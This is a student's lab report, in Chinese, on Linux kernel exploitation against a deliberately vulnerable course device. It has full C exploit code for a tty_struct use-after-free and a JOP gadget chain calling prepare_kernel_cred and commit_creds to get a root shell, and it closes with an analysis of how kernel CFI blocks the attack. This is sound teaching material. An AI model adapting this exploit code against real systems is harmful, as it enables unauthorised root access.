

## Lab3 JOP | Linux内核漏洞攻防

> Link: https://zjusec.gitee.io/syssec23-stu/lab3/

### 一、思考题1

> Q1. 为什么在堆上分配相同大小内存的时候，两次分配的内存地址会一样

Linux内核在堆上分配内存时，通常会使用如下系统调用

- malloc(分配小块内存时调用)
  - brk：将数据段(.data)的最高地址指针`_edata`往高地址推（从堆头开始，参数为地址）
  - sbrk：将地址指针往高地址推（从当前指针位置开始，参数为指针增量）
- mmap(默认分配大于128k内存时调用)

由于频繁的分配释放内存容易产生碎片，并且会影响性能，因此Linux引入了基于内存池的内存管理方式，堆内存的分配和回收进行统一管理，对于每一块内存称之为chunk

被用户free掉的chunk，通过指针连接成链表，不同大小的内存连接成不同的链表，每一个链表称之为bin，当再次需要分配某一个大小的内存时，就在对应大小的chunk连接成的bin中分配即可，进而减少碎片，也可以提高内存分配效率

因此当我们在堆上分配相同大小内存时，被free的内存被接入bin中，再次分配相同大小的内存就会从bin上分配，进而极大增加了分配到的内存地址相同的概率；这也就解释了为什么在UAF利用中，两次分配的内存地址会一样

### 二、 Task1：设备接口的使用 & 思考题2

1. 根据UAF的原理，我们先两次打开`/dev/zjudev`设备，分配并释放大小为`sizeof(tty_struct)`的缓冲区，这样做是为了之后打开`/dev/ptmx`设备，分配`tty_struct`结构体时能够分配到与`/dev/zjudev`相同地址的缓冲区
2. 之后我们打开`/dev/ptmx`设备，并判断是否分配到了与`/dev/zjudev`相同的缓冲区；判断的方法是，我们观察`tty_struct`结构体：

```c
struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;	/* class device or NULL (e.g. ptys, serdev) */
	struct tty_driver *driver;
	const struct tty_operations *ops
// ...
}
/* tty magic number */
#define TTY_MAGIC		0x5401
```

在结构体的起始地址有一个`magic`变量，其值会被初始化成`0x5401`，而我们尽管不知道`tty_struct`结构体的地址，但是可以通过读取`/dev/zjudev`分配的缓冲区内容，判断最开始的四个字节是否为`0x5401`即可

3. 具体实现上，可以使用一个死循环，不断打开`/dev/ptmx`设备，判断`/dev/zjudev`的缓冲区内容是否为`0x5401`，当结果为是，则跳出循环，返回`ptmx`的文件描述符
4. 之后，我们就可以通过调用`/dev/zjudev`设备的`write`接口，修改缓冲区内容，进而修改`tty_struct`结构体的内容

> Q2. 如何确定自己所控制的指针一定被分配给` tty_struct`结构体

见之前的分析，通过`tty_struct`结构体开头的`magic`变量的值进行判断

附代码：

```c++
#define TTY_STRUCT_SIZE 0x2B8
#define TTY_MAGIC 0x5401

size_t tty_op_buf[36];
char tty_buf[TTY_STRUCT_SIZE];

int init_dev() {
    int dev1 = open("/dev/zjudev", O_RDWR);
    int dev2 = open("/dev/zjudev", O_RDWR);
    ioctl(dev1, 0x0001, TTY_STRUCT_SIZE);
	close(dev1);
	return dev2;
}

int init_ptmx(int dev_fd) {
    int ptmx_fd;
    for (;;) {
        ptmx_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        memset(tty_buf, '\0', sizeof(tty_buf));
        read(dev_fd, tty_buf, TTY_STRUCT_SIZE - 1);
        for (size_t i = 0; i < TTY_STRUCT_SIZE; i += 8) {
            char v_str[9];
            memcpy(v_str, tty_buf + i, 8);
            v_str[8] = '\0';
            printf("tty_buf + %lu = 0x%lx\n", i, *(size_t*)v_str);
        }
        size_t magic = 0;
        memcpy(&magic, tty_buf, 4);
        if (magic == TTY_MAGIC) break; 
        printf("\n");
    }
    printf("TTY_MAGIC match! ptmx_fd = %d\n", ptmx_fd);
    return ptmx_fd;
}

int main(int argc, char* argv[]) {
    int dev_fd = init_dev();
	int ptmx_fd = init_ptmx(dev_fd);
    return 0;
}

```

### 三、 Task2：简单获取root shell & 思考题3

1. 观察`tty_struct`结构体，我们可以发现有一个`const struct tty_operations* ops`指针，其指向的是一组可以被调用的函数指针，当我们对`/dev/ptmx`设备进行操作时，调用的就是其中的函数；`struct tty_operations`的具体结构如下：

```c
struct tty_operations {
	struct tty_struct * (*lookup)(struct tty_driver *driver,
			struct file *filp, int idx);
	int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
	void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
	int  (*open)(struct tty_struct * tty, struct file * filp);
	void (*close)(struct tty_struct * tty, struct file * filp);
	void (*shutdown)(struct tty_struct *tty);
	// ...
}
```

2. 由于我们之前使得`tty_struct`的地址和`/dev/zjudev`中分配的缓冲区起始地址相同，那么我们就可以通过覆写缓冲区进而修改`ops`指针的值，而我们完全可以将`ops`指向一块大小和`tty_operations`相同的区域，但里面的函数指针全都指向`hack_cred`函数的地址，那么我们就可以通过调用`/dev/ptmx`设备的方法，进而调用`hack_cred`函数，获取root权限
3. 首先我们需要获得`hack_cred`的函数地址，由于没有开始ASLR，因此直接在`System.map`里面查表即可


4. 可以看到`tty_operations`中共有36个函数指针，每个函数指针大小为8B，因此我们创建一个大小为36*8B的数组`tty_op_buf`，其中所有函数指针都指向`hack_cred`，之后获取`ptr = &tty_op_buf`，将`ptr`覆盖`ops`指针，进而调用`hack_cred`

> Q3. 为什么不能直接通过 UAF 控制 cred 结构体直接修改其内容？有没有办法能够通过 UAF 来利用新版本的 cred 结构体呢？

在Linux kernel 4.5版本之前是可以的，但是在Linux kernel 4.5版本及之后就不可以了，可以比较kernel 4.5版本对`cred_init`函数的修改(参考了https://zhuanlan.zhihu.com/p/437464189)

```c
4.4.72
/*
 * initialise the credentials stuff
 */
void __init cred_init(void)
{
    /* allocate a slab in which we can store credentials */
    cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
                     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
}
4.5
/*
 * initialise the credentials stuff
 */
void __init cred_init(void)
{
    /* allocate a slab in which we can store credentials */
    cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
    	0,SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
}
```

可以注意到，在 slab 的创建 flag 中多了 一个 `SLAB_ACCOUNT`，意味着`cred_jar`和`kmalloc`不再合并，也就是说`cred`分配的内存和`kmalloc`分配的内存来自两个不同的区域，因此无法使得通过`kmalloc`分配的内存和分配给`cred`的内存拥有相同的起始地址，也就无法通过UAF控制cred结构体

附代码：

```c
#define TTY_STRUCT_SIZE 0x2B8
#define TTY_MAGIC 0x5401

#define HACK_CRED_ADDR 0xffff80001083aa84

size_t tty_op_buf[36];
char tty_buf[TTY_STRUCT_SIZE];

void exp_task2(int dev_fd, int ptmx_fd) {
    printf("Jump into exp_task2!\n");
    // 创建tty_op_buf，将其中的函数指针都修改为HACK_CRED_ADDR
    for (size_t i = 0; i < 36; ++i)
        tty_op_buf[i] = HACK_CRED_ADDR;
    char my_buf[32];
    size_t ptr = (size_t)(&tty_op_buf);
    printf("ptr = %lx\n", ptr);
    memcpy(my_buf, tty_buf, 24);
    // 修改ops指针，指向tty_op_buf
    memcpy(my_buf + 24, &ptr, 8);
    for (size_t i = 0; i < 32; i += 8)
        printf("my_buf + %lu = 0x%lx\n", i, *(size_t*)(my_buf + i));
    // 覆写缓冲区
    write(dev_fd, my_buf, 32);
    // 检查缓冲区是否被修改
    printf("check ttyy_buf\n");
    read(dev_fd, tty_buf, TTY_STRUCT_SIZE - 1);
    for (size_t i = 0; i < 32; i += 8)
        printf("tty_buf + %lu = 0x%lx\n", i, *(size_t*)(tty_buf + i));
    // 调用close操作ptmx设备，真正调用的是hack_cred函数
    close(ptmx_fd);
    system("/bin/sh");
    return;
}

int main(int argc, char* argv[]) {
    int dev_fd = init_dev();
	int ptmx_fd = init_ptmx(dev_fd);
    exp_task2(dev_fd, ptmx_fd);
    return 0;
}
```

### 四、Task3：gadget获取root shell & 思考题4

1. 在task3中我们无法直接调用`hack_cred`函数获取root权限，需要使用`gadget`，本质上就是通过`gadget`控制传参的寄存器，进而依次调用`struct cred* root_cred = prepare_kernel_cred(NULL)`和`commit_creds(root_cred)`获取root权限

2. 我们先观察一下这几个`gadget`分别做了什么

   - `zju_gadget1:` 将 [x0 + 0x38]地址的值赋值给x1，将x2的值赋值给x0，跳转到x1储存的地址处
   - `zju_gadget2:` 将x0置0，将[x2 + 0x28]地址的值赋值给x1，跳转到x1储存的地址处
   - `zju_gadget3:` 直接返回
   - 之后我们的思路就明确了，我们首先通过`zju_gadget3`获取`ty_struct`的地址，之后通过`zju_gadget2`调用`prepare_kernel_cred`方法，获取返回值，之后再调用`commit_creds`方法获取root权限

3. 首先我们需要获取`tyy_struct`的地址

   1. 在之前的实验中，尽管我们可以修改`tyy_struct`结构的值，但是我们需要在之后将`tty_struct`的地址作为参数传入`gadget`，因此我们需要得到它的地址
   2. 在arm中，函数的第一个参数会保存在x0中，函数返回的值也会保存在x0中，而我们观察`ioctl`方法

   ```c
   // x0 = tty_struct_of_fd, x1 = p1, x2 = p2
   int ioctl(int fd, unsigned long int p1, void *p2) {
       ioctl_operation(tty_struct_of_fd, p1, p2);
   }
   // x0 = &tty, x1 = cmd, x2 = arg
   int  (*ioctl)(struct tty_struct *tty,
   		    unsigned int cmd, unsigned long arg);
   ```

   可以其会将参数按照顺序传入`ioctl_operation`，之后在`ioctl`函数指针中，第一个参数就是`tty_struct`的指针，因此x0就是`tty_struct`的起始地址

   3. 我们将`ioctl`方法覆写为`zju_gadget3`，`return`得到的返回值(x0)就是`tty_struct`的起始地址；需要注意由于返回值为int类型，在赋值为64bit类型变量后，需要手动将最高16位赋值为`0xffff`

4. 之后我们需要调用`prepare_kernel_gadget`函数
   1. 首先这个函数的参数需要是`NULL`，而`NULL`在C中就是0，因此我们可以想到利用`zju_gadget2`，同时`x0`正好作为`prepare_kernel_gadget`的第一个参数
   2. 如何调用`prepare_kernel_gadget`函数？可以发现`zju_gadget2`将[x2 + 0x28]地址的值赋值给x1，之后跳转到x1储存的地址处，那么我们就可以将`prepare_kernel_gadget`的地址放到[x2 + 0x28]
   3. x2是可以通过`ioctl`传入的参数，也就是p2，那么我们就可以直接传入`tty_struct`的起始地址，将[addr+0x28]处的地址覆写成`prepare_kernel_gadget`的地址即可
   4. 最后将返回值保存，之后需要传入`commit_creds`
5. 之后就是调用`commit_creds`，和之前一样的思路，在`zju_gadget1`中，将 [x0 + 0x38]地址的值赋值给x1，将x2的值赋值给x0，跳转到x1储存的地址处；因此我们可以通过覆写 [x0 + 0x38]地址处的值为`commit_creds`的地址对其调用，同时将`prepare_kernel_cred`的返回值作为参数传入`x2`，在`zju_gadget1`中传入`x0`，进而调用函数

> Q4. 为什么第二步可以直接ret获取到 `tty_struct`结构体的地址？ret 执行前后的控制流是什么样的？

根据之前的分析，当调用`int  (*ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg)`函数签名时，第一个参数就到 `tty_struct`结构体的地址，通过x0寄存器传参；而我们实际上调用的是`zju_gadget3`，此时传参是正常的，但是在函数体中直接`return`，没有修改x0寄存器的值；而arm架构中函数的返回值也储存在x0寄存器中，函数返回值也就是 `tty_struct`结构体的地址

控制流：`my_function` -> `int ioctl(int fd, unsigned long int p1, void *p2)` -> ... `tty_optarions.ioctl(struct tty_struct *tty, unsigned int cmd, unsigned long arg)` -> `zju_gadget3` ->  ... -> `my_function`

附代码：

```c
#define TTY_STRUCT_SIZE 0x2B8
#define TTY_MAGIC 0x5401

#define ZJU_GADGET_ONE_ADDR 0xffff80001083aa44
#define ZJU_GADGET_TWO_ADDR 0xffff80001083aa5c
#define ZJU_GADGET_THREE_ADDR 0xffff80001083aa74
#define PREPARE_KERNEL_CRED_ADDR 0xffff8000100b6030
#define COMMIT_CREDS_ADDR 0xffff8000100b5bac

size_t tty_op_buf[36];
char tty_buf[TTY_STRUCT_SIZE];

int init_dev() {
    int dev1 = open("/dev/zjudev", O_RDWR);
    int dev2 = open("/dev/zjudev", O_RDWR);
    ioctl(dev1, 0x0001, TTY_STRUCT_SIZE);
	close(dev1);
	return dev2;
}

int init_ptmx(int dev_fd) {
    int ptmx_fd;
    for (;;) {
        ptmx_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        memset(tty_buf, '\0', sizeof(tty_buf));
        read(dev_fd, tty_buf, TTY_STRUCT_SIZE - 1);

        for (size_t i = 0; i < TTY_STRUCT_SIZE; i += 8) {
            char v_str[9];
            memcpy(v_str, tty_buf + i, 8);
            v_str[8] = '\0';
            printf("tty_buf + %lu = 0x%lx\n", i, *(size_t*)v_str);
        }
        size_t magic = 0;
        memcpy(&magic, tty_buf, 4);
        if (magic == TTY_MAGIC) break; 
        printf("\n");
    }
    printf("TTY_MAGIC match! ptmx_fd = %d\n", ptmx_fd);
    return ptmx_fd;
}

void exp_task3(int dev_fd, int ptmx_fd) {
    printf("Jump into exp_task3!\n");
    memset(tty_op_buf, '\0', sizeof(tty_op_buf));
    char my_buf[0x40];
    size_t ptr = (size_t)(&tty_op_buf);
    size_t prepare_kernel_cred_addr = PREPARE_KERNEL_CRED_ADDR;
    size_t commit_creds_addr = COMMIT_CREDS_ADDR;
    memcpy(my_buf, tty_buf, 0x40);
    memcpy(my_buf + 24, &ptr, 8);
    memcpy(my_buf + 0x28, &prepare_kernel_cred_addr, 8);
    memcpy(my_buf + 0x38, &commit_creds_addr, 8);
    write(dev_fd, my_buf, 0x40);
    tty_op_buf[12] = ZJU_GADGET_THREE_ADDR;
    size_t tty_addr = ioctl(ptmx_fd, 0x0, 0x0) | 0xffff000000000000;
    printf("tty_addr = 0x%lx\n", tty_addr);
    tty_op_buf[12] = ZJU_GADGET_TWO_ADDR;
    commit_creds_addr = ioctl(ptmx_fd, 0x0, my_buf) | 0xffff000000000000;
    printf("commit_creds_addr = 0x%lx\n", commit_creds_addr);
    tty_op_buf[12] = ZJU_GADGET_ONE_ADDR;
    ioctl(ptmx_fd, 0x0, commit_creds_addr);
    system("/bin/sh");
    return;
}

int main(int argc, char* argv[]) {
    int dev_fd = init_dev();
	int ptmx_fd = init_ptmx(dev_fd);
    exp_task3(dev_fd, ptmx_fd);
    return 0;
}
```

### 五、Task4：内核CFI保护

- 使用`objdump`反汇编开启CFI的内核镜像 `vmlinux`，获得汇编代码，提交任意一个间接调用的汇编代码，并详细解释CFI是如何防御JOP攻击

我们分别在开始CFI和没开启CFI的vmlinux镜像中反汇编`tty_driver_flush_buffer`函数，关键代码如下

CFI:


NoCFI:


关注如下片段：

```assembly
ffff800008bd9594:	b4000108 	cbz	x8, ffff800008bd95b4 <tty_driver_flush_buffer+0x38>
ffff800008bd9598:	d00061c9 	adrp	x9, ffff800009813000 <regulator_get_current_limit.cfi_jt>
ffff800008bd959c:	912d0129 	add	x9, x9, #0xb40
ffff800008bd95a0:	cb090109 	sub	x9, x8, x9
ffff800008bd95a4:	93c90d29 	ror	x9, x9, #3
ffff800008bd95a8:	f100a93f 	cmp	x9, #0x2a
ffff800008bd95ac:	540000c2 	b.cs	ffff800008bd95c4 <tty_driver_flush_buffer+0x48>  // b.hs, b.nlast
```

可以看到在开启了CFI之后，出现了`regulator_get_current_limit.cfi_jt`标签，如果x8和x9寄存器的值不满足要求，就会跳转到该标签对应的函数处，之后调用`handle_cfi_failure`处理CFI failure；总结来说，CFI通过对函数跳转地址的检查，进而防止JOP攻击

- 重新运行JOP攻击程序，查看是否CFI是否能起作用。提交demsg中包含CFI Failure截图

重新运行JOP攻击程序，发现CFI生效，无法跳转到目标函数


之后调用`dmesg`，发现触发了`cfi_failure`

